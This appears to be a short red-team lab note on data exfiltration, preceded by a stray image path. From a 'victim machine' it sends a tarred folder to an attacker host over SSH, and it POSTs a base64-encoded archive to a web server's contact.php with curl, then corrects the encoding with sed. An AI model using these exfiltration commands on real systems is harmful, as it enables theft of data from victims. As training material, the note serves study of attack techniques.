### SSH
from the victim machine:\
`tar cf - <folder> | ssh <RED>@<IP> "cd /tmp/; tar xpf -"`
1. We used the tar command the same as the previous task to create an archive file of the <folder> directory.\
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session. \
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

### HTTP POST
We imagine we have a contact.php on a web server that will store data somewhere on the machine\
`curl --data "file=$(tar zcf - <FOLDER> | base64)" http://the.web.server/contact.php`\
The main problem is that because of the http URL encoding, the base64 will be broken, so here is how fix it:\
`sudo sed -i 's/ /+/g' <file>`
